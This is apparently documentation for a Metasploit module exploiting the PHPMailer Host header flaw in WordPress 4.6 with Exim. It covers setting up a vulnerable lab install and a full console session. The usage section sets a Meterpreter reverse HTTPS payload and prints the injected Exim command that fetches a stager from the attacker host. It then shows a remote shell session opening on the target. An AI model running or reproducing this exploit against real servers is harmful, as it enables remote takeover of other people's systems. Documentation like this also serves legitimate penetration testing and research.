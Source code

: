 ## Intro

This vuln has some caveats: you need approximately WordPress 4.6 with
Exim for the `sendmail(8)` command.

Thanks to WP's awesome practice of backporting the heck out of all their
patches, we need to use a Git clone and check out the vuln release.

## Setup

This was tested on Ubuntu 15.04. YMMV.

1. got root?
2. `cd /var/www/html`
3. `git clone https://github.com/WordPress/WordPress wordpress-4.6`
4. `chown -R www-data:www-data wordpress-4.6`
5. `cd wordpress-4.6`
6. `git checkout 4.6`
7. Set up a MySQL database for WordPress
8. Install as normal

## Options

**VERBOSE**

If you'd like to see what requests are being sent, set this to `true`.
You should see the Exim prestager commands being sent to the target.

## Usage

Please set the payload options. Some sane defaults are set, but you'll
want to be as specific as possible.

```
msf > use exploit/unix/webapp/wp_phpmailer_host_header 
msf exploit(wp_phpmailer_host_header) > set rhost 192.168.33.152
rhost => 192.168.33.152
msf exploit(wp_phpmailer_host_header) > set targeturi /wordpress-4.6
targeturi => /wordpress-4.6
msf exploit(wp_phpmailer_host_header) > set payload linux/x64/meterpreter_reverse_https
payload => linux/x64/meterpreter_reverse_https
msf exploit(wp_phpmailer_host_header) > set lhost 192.168.33.1
lhost => 192.168.33.1
msf exploit(wp_phpmailer_host_header) > set verbose true
verbose => true
msf exploit(wp_phpmailer_host_header) > run

[*] Started HTTPS reverse handler on https://192.168.33.1:8443
[*] WordPress 4.7 installed at http://192.168.33.152/wordpress-4.6
[*] Generating wget command stager
[*] Using URL: http://0.0.0.0:8080/gzayjqwr
[*] Local IP: http://192.168.1.7:8080/gzayjqwr
[*] Generating and sending Exim prestager
[*] Sending /bin/sh -c ${reduce{get /gzayjqwr http/1.0}{${run{/bin/echo}}}{${extract{-1}{$value}{${readsocket{inet:192.168.33.1:8080}{$item$value$value}}}}}}
[*] https://192.168.33.1:8443 handling request from 192.168.33.152; (UUID: bwm9z08k) Redirecting stageless connection from /Dbyg6-yOlTQo9i70ceSG0wDDy1JAZjOS5ToQyoXw4zXBnF with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.33.1:8443 handling request from 192.168.33.152; (UUID: bwm9z08k) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.33.1:8443 -> 192.168.33.152:35138) at 2017-05-10 01:07:35 -0500
[*] Sending /bin/rm -f /tmp/ovcixpnf
[*] Server stopped.

meterpreter > 
```
